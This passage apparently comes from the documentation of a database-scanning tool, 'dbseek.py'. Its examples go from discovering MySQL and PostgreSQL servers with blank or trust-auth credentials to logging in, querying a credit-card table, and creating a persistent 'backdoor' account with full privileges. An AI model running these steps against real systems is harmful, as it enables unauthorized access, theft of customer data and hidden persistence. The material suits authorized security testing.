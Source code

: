```bash
    "password": "5f4dcc3b5aa765d61d8327deb882cf99",
    "email": "admin@company.local"
}

# Impact: Complete database access
```

### Example 2: MySQL Blank Root Password
**Scenario**: Production MySQL with no root password

```bash
# Discovery + Testing
$ ./dbseek.py -t
[CRITICAL] 192.168.1.50 (mysql-prod-01.company.local) - MySQL/MariaDB
    ⚠ MySQL weak credentials: root/(blank)

# Enumeration
$ ./dbseek.py -u root -p "" -e
[CRITICAL] 192.168.1.50 - MySQL/MariaDB
    ✓ MySQL: root:(blank)
    📊 MySQL/MariaDB Databases: mysql, information_schema, app_db, customer_data

# Access
$ mysql -h 192.168.1.50 -u root
Welcome to the MySQL monitor.

mysql> USE customer_data;
mysql> SELECT * FROM credit_cards LIMIT 5;
+-----+------------------+----------+-----+
| id  | card_number      | exp_date | cvv |
+-----+------------------+----------+-----+
...

# Create backdoor account
mysql> CREATE USER 'backdoor'@'%' IDENTIFIED BY 'SecretPass123';
mysql> GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';

# Impact: Full database access + persistence
```

### Example 3: PostgreSQL Trust Authentication
**Scenario**: PostgreSQL with trust authentication from internal network

```bash
# Discovery
$ ./dbseek.py -t
[CRITICAL] 192.168.1.51 (postgres-app.company.local) - PostgreSQL
    ⚠ PostgreSQL weak credentials: postgres/(blank)

# Enumeration
$ ./dbseek.py -u postgres -p "" -e
[CRITICAL] 192.168.1.51 - PostgreSQL
    ✓ PostgreSQL: postgres:(blank)
    📊 PostgreSQL Databases: postgres, employee_db, financial_records

# Access
$ psql -h 192.168.1.51 -U postgres
postgres=# \l
                                  List of databases
       Name        |  Owner   | Encoding | Collate | Ctype | Access privileges
-------------------+----------+----------+---------+-------+-------------------
 employee_db       | postgres | UTF8     | en_US   | en_US |
 financial_records | postgres | UTF8     | en_US   | en_US |

```